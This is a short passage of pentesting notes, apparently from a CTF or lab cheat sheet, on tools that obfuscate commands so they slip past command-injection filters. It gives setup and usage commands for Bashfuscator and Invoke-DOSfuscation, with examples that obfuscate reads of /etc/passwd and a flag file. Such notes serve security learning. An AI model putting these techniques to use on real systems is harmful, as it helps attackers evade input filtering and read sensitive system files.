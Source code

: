 ## Evasion Tools

We can use evasion tools so that they create us the strings we can directly use for command injections instead to create them manually.

### Bashfuscator - Linux

- Setup :
```console
git clone https://github.com/Bashfuscator/Bashfuscator
cd Bashfuscator
python3 setup.py install --user
cd ./bashfuscator/bin/
```

- Usage example :
```console
./bashfuscator -c 'cat /etc/passwd'
./bashfuscator -c 'cat /etc/passwd' -s 1 -t 1 --no-mangling --layers 1
```

### DOSfuscation - Windows

- Setup :

```console
git clone https://github.com/danielbohannon/Invoke-DOSfuscation.git
cd Invoke-DOSfuscation
Import-Module .\Invoke-DOSfuscation.psd1
Invoke-DOSfuscation
help
```


- Usage :

```console
SET COMMAND type C:\Users\Bob\Desktop\flag.txt
encoding
1
```
